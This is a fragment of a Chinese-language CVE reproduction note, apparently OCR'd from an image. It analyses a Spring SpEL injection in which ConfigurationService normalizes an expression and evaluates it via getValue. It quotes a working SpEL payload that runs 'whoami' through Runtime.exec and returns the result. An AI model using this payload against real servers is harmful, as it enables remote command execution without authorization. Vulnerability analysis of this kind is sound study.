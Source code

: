 ```
payload分析
本质上就是使用whoami命令并执行，并通过输入流得到结果，最后将结果转换为字符串输出出来。
#{new
String(T(org.springframework.util.StreamUtils).co pyToByteArray(T(java.lang.Runtime).getRuntime().exec(new
String[]{\"whoami\"}).getInputStream()))}
```

```
源码分析
首先ConfigurationService类会接收到spel表达式，先通过调用normalize进行规范化处理。
```

![image-20241127143132764](CVE漏洞复现/image-20241127143132764.png)	

```
在调用normalize方法后，内部会调用到getvalue函数，这里会取出spel表达式。
```

![image-20241127143602246](CVE漏洞复现/image-20241127143602246.png)	
